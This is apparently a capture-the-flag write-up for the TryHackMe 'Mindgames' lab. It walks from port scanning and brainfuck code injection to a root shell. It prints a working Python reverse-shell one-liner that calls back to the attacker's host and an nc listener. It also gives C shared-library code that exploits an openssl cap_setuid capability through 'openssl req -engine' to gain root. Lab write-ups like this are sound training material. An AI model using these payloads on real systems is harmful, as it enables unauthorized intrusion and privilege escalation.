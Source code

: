 > No hints. Hack it. Don't give up if you get stuck, enumerate harder
___
- running an initial nmap ```nmap -sV IP -v``` scan I foud ports `90` and `22` open 
- navigating to the webpage, there were a couple of code snippets to run, the and the coding language was brainfuck
- decoding the brainfuck code samples, I found they were written in python (ex// print('Hello, World')
- I used this python code for a reverse shell:
```python
import socket,os,pty;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR IP",7777));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")
```
- pasted it into a brainfuck code generator, and pasted the generated code into the website
- running a listener on my attacking machine `nc -lvnp 7777` I got a reverse shell
```
$ whoami
mindgames

$ python3 -c 'import pty;pty.spawn("/bin/bash")'
mindgames@mindgames:~/webserver$
```
- I CDed into `mindgames` home directory, which is where I found `user.txt` 
- going up the parent home directory, I found one other user, tryhackme
```
mindgames@mindgames:/home$ ls
mindgames  tryhackme
```
- in order to escalate to root, I would usually use commands such as `sudo -l` but since this is a reverse shell and I don't have a password, we're going to need a different method
- the one hint is to enumerate harder, so I decided against bruteforcing ssh passwords
- instead I CDed back into `/webserver` in mindgames home directory (spoiler alert, don't follow the next like 5 steps they did nothing)
```
mindgames@mindgames:~/webserver$ ls -la
ls -la
total 7032
drwxrwxr-x 3 mindgames mindgames    4096 May 11  2020 .
drwxr-xr-x 6 mindgames mindgames    4096 May 11  2020 ..
drwxrwxr-x 2 mindgames mindgames    4096 May 11  2020 resources
-rwxrwxr-x 1 mindgames mindgames 7188315 May 11  2020 server
```
- the resources folder contained the index stysheet and js code, all of which are accessible from the webpage itself so I didn't bother investigating those through the shell
- instead I focused on the gigantic server file
```
mindgames@mindgames:~/webserver$ file server
server: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, not stripped
```
- yay...
- transfered the files over
```python3
mindgames@mindgames:~/webserver$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

mymachine > wget http://10.10.24.153:8000/server
```
- running file on my attack machine, it showed the build id which seemed a bit unusual
```
└─$ file server
server: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, Go BuildID=6eWZXU8dxYsVcbX8M-_t/L7HAoBGFkn5le6fY7orV/EsVJ-L3djclt6TZ91pnM/Yqf5bdBbhM5qHpYIoY3Y, not stripped
```
- I used `readelf -a server` to analyze the file further, and found this string at the bottom
```
description data: 36 65 57 5a 58 55 38 64 78 59 73 56 63 62 58 38 4d 2d 5f 74 2f 4c 37 48 41 6f 42 47 46 6b 6e 35 6c 65 36 66 59 37 6f 72 56 2f 45 73 56 4a 2d 4c 33 64 6a 63 6c 74 36 54 5a 39 31 70 6e 4d 2f 59 71 66 35 62 64 42 62 68 4d 35 71 48 70 59 49 6f 59 33 59
```
- decoding it, i found that it was identical to the build id `6eWZXU8dxYsVcbX8M-_t/L7HAoBGFkn5le6fY7orV/EsVJ-L3djclt6TZ91pnM/Yqf5bdBbhM5qHpYIoY3Y`
- the functions section was veryyyy long with a ton of potentially interesting request and commands, but I found the flag sections interesting
```
5822: 00000000004c52e0   121 FUNC    GLOBAL DEFAULT    1 flag.(*intValue).Set
  5823: 00000000004c5360    83 FUNC    GLOBAL DEFAULT    1 flag.(*intValue)[...]
  5824: 00000000004c53c0   121 FUNC    GLOBAL DEFAULT    1 flag.(*int64Valu[...]
  5825: 00000000004c5440    92 FUNC    GLOBAL DEFAULT    1 flag.(*int64Valu[...]
  5826: 00000000004c54a0   121 FUNC    GLOBAL DEFAULT    1 flag.(*uintValue).Set
  ... [ ETC ] ...
```
- i'm not very good at reverse engineering, so it was looking like running the file was my only real option (which i didn't really want to do but wtv)
```
└─$ ./server       
2024/03/02 21:41:00 Listening for requests
```
- at this point I started to think this was the wrong rabbithole to be going down (I was right)
- the python server messed up the shell so I respawned it and decided to search for other methods of priv escalation
```shell
# find suids
find / -user root -perm -u=s 2>/dev/null
```
- this didn't return anything interesting, so I decided to finally give in and just use linpeas, which foud an `openssl` vulnerability
```
[+] Capabilities
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#capabilities
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/openssl = cap_setuid+ep
/home/mindgames/webserver/server = cap_net_bind_service+ep
```
- now we generate c code to exploit this (this is the contents of shell.c)
```c
#include <unistd.h>

__attribute__((constructor))
static void init() {
    setuid(0);
    execl("/bin/sh", "sh", NULL);
}
```
- compiled it, transfered it to the reverse shell using a python server (see semi useless steps above if you don't know how to do that)
```
gcc -fPIC -o shell.o -c shell.c
gcc -shared -o shell.so -lcrypto shell.o
```
- then I ran it on the reverse shell
```
mindgames@mindgames:~$ chmod +x shell.so 
mindgames@mindgames:~$ openssl req -engine ./shell.so
root@mindgames:~# cat /root/root.txt
```
- done!
